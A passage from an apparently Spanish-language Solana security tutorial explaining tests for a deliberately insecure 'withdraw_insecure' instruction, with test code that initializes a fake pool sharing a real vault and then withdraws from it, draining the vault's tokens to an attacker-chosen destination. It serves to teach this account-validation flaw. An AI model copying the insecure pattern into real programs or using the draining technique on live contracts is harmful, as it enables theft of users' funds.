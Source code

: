 ## 2. Prueba de la instrucción **withdraw_insecure**

El archivo de prueba incluye el código para invocar la instrucción **initialize_pool** y luego crear 100 tokens en la cuenta de token del **vault** . También incluye una prueba para invocar la **withdraw_insecure** usando el **withdraw_destination** previsto. Esto demuestra que las instrucciones se pueden usar como se pretende.

Después de eso, hay dos pruebas más para demostrar cómo las instrucciones son vulnerables a la explotación.

La primera prueba invoca la instrucción **initialize_pool** para crear una cuenta de **pool** "falsa" utilizando la misma cuenta de token **vault** , pero un **withdraw_destination** diferente.

La segunda prueba se retira del pool, robando fondos del vault.

```Rust
it("Insecure initialize allows pool to be initialized with wrong vault", async () => {
    await program.methods
      .initializePool(authInsecureBump)
      .accounts({
        pool: poolInsecureFake.publicKey,
        mint: mint,
        vault: vaultInsecure.address,
        withdrawDestination: withdrawDestinationFake,
        payer: walletFake.publicKey,
      })
      .signers([walletFake, poolInsecureFake])
      .rpc()

    await new Promise((x) => setTimeout(x, 1000))

    await spl.mintTo(
      connection,
      wallet.payer,
      mint,
      vaultInsecure.address,
      wallet.payer,
      100
    )

    const account = await spl.getAccount(connection, vaultInsecure.address)
    expect(Number(account.amount)).to.equal(100)
})

it("Insecure withdraw allows stealing from vault", async () => {
    await program.methods
      .withdrawInsecure()
      .accounts({
        pool: poolInsecureFake.publicKey,
        vault: vaultInsecure.address,
        withdrawDestination: withdrawDestinationFake,
        authority: authInsecure,
        signer: walletFake.publicKey,
      })
      .signers([walletFake])
      .rpc()

    const account = await spl.getAccount(connection, vaultInsecure.address)
    expect(Number(account.amount)).to.equal(0)
})
```
